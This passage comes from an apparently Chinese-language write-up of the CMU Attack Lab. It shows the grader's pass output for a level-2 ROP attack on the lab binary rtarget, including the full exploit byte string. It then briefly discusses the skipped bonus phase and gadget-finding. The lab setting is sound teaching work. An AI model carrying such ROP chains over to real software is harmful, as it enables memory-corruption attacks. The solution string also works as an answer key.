 得到成功提示：

```
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 EC 17 40 00 00 00 00 00 A3 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A3 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

## 给函数传字符串

`Phase 5`要通过ROP实现`Phase 3`传字符串的操作，算作一个加分项。老师在`handout`里面说，如果你对这个特别感兴趣，又没什么别的事情好干了，或者是个卷王，就可以来挑战`Phase 5`。我以上3点都不满足，所以就不做了，以后有兴致在来研究吧。

老师的解答包含8个`gadget`，也就是要找出8个`ret`指令结尾的字节序列。最好的做法应该是写一个辅助脚本，找出`farm`里面所有可能的`gadget`，解析出所有可以用的指令，然后发动火眼金睛。